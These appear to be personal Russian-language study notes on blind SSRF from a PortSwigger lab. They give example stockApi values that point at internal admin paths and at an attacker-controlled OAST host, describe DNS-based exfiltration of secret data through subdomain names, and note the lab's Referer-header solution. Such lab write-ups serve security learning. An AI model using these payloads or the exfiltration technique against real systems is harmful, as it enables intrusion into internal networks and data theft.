



Слепые уязвимости SSRF возникают, если вы можете заставить приложение выдать серверный HTTP-запрос на предоставленный URL-адрес
--


из-за односторонней природы - не так опасны, так как я не буду видеть ответа от сервера как раньше
если подставить свой хост - может тогда что-то я смогу увидеть и спользовать
также слепые ssrf можно детектировать через время ответа на запрос (если верно - дольше ответ например)

Как найти слепую SSRF - нужно подставлять в параметры url адресс своего сайта или облачной функции , может **InteractSh**, и если внутренний сервер сделает запрос на этот сайт - то уже уже уязвимость , так как далее это можно уже эксплуатировать, сканировать внутреннюю сеть или пытаться украсть данные , может даже внедрить свой вредоносный код.

зачастую внутренняя система не пропускает HTTP запросы но пропускает DNS запросы 
так как на основе dns работает вся сеть в компании, его блокировать - бред

HTTP: порт 80, 443, 8080 → часто блокируются
DNS: порт 53 UDP → редко блокируется

```http
# HTTP запрос → скорее всего заблокирован
stockApi=http://internal-server/admin
→ ❌ Блок (внутренний HTTP трафик запрещён)

# Но DNS запрос ВСЁ РАВНО делается!
stockApi=http://test.collaborator.com
→ ❌ HTTP заблокирован
→ ✅ DNS-запрос test.collaborator.com ВЫПОЛНЕН!
```

## **Вот как это работает пошагово:**

### **Шаг 1
Есть приложение, которое принимает URL от пользователя и делает запрос:
stockApi=http://внутренний-сервер/admin (я могу менять ссылку в запросе)

### **Шаг 2: 
Вместо внутреннего сервера  указываем свой контролируемый домен:
stockApi=http://ljtvrbscclacfvhwsnbp9lora8on2p54x.oast.fun

### **Шаг 3: Что делает сервер лабы**
**Когда сервер получает эту команду, он:**

1. "Мне нужно сделать запрос к ljtvrbscclacfvhwsnbp9lora8on2p54x.oast.fun"
2. "Но я не знаю IP этого домена!"
3. → Смотрю в локальный DNS-кэш → Нет записи
4. → Обращаюсь к внешним DNS-серверам:
   "Эй, какой IP у ljtvrbscclacfvhwsnbp9lora8on2p54x.oast.fun?"

### **Шаг 4: DNS-сервер получает запрос**

Сервис oast.fun (который под моим контролем + логи):
📨 Получен DNS-запрос: "ljtvrbscclacfvhwsnbp9lora8on2p54x.oast.fun"
   От: [IP-адрес сервера лабы]
   Время: 15:30:25

**🎯 Вывод №1:** если сервер сделал запрос к моему ресурсу → SSRF уязвимость подтверждена!

# как воровать данные этим способом?

можно добавлять путь к файлам на сервере который атакуем

DNS-запрос  выглядит так:

"Какой IP у СЕКРЕТНЫЕ_ДАННЫЕ.ljtvrbscclacfvhwsnbp9lora8on2p54x.oast.fun?"
         ↑
   Данные внутри вопроса!

и потом на подконтрольный мне хост прийдут логи  в фоомате
СЕКРЕТНЫЕ_ДАННЫЕ.ljtvrbscclacfvhwsnbp9lora8on2p54x.oast.fun
время ---


подробнее про DNS здесь: [[DNS]]


-----

# ЛАБА ЗДЕСЬ
https://portswigger.net/web-security/ssrf/blind/lab-out-of-band-detection

# Слепой SSRF с внеполосным обнаружением
OAST

#### Примечание

Чтобы предотвратить использование платформы Академии для атак третьих лиц, наш брандмауэр блокирует взаимодействие между лабораториями и произвольными внешними системами. Чтобы решить проблему, вы должны использовать публичный сервер Burp Collaborator по умолчанию.


я планировал  использовать сервис 
https://app.interactsh.com

либо свою облачную функцию-детектор
  
https://functions.yandexcloud.net/d5esdrhe74dаdgvukpc1t

но портсвиггер запрещает сторонние домены кроме своего. 
поэтому :  БЕЗ ПОДПИСКИ ЭТУ ЛАБУ НЕВОЗМОЖНО РЕШИТЬ


первое - перехват запроса
видно что url есть в заголовке REFERER
и мы можем менять этот заголовок!





прямо сюда подставляют ссылку на свой хост


сделали запрос 
и в логах видно запросы!




и лаба решилась. то есть просто факт того что на твой сервер пришел запрос -=условие для выполнения лабы, это самая легкая лаба, но без колоборатора и платной версии burp решить нельзя


----
РЕШЕНИЕ

в их решении за перехваченном запросе есть URL который можно подменить на собственный
и нет проверки на URL 
поэтому их сервер спокойно редиректил на чужой адресс

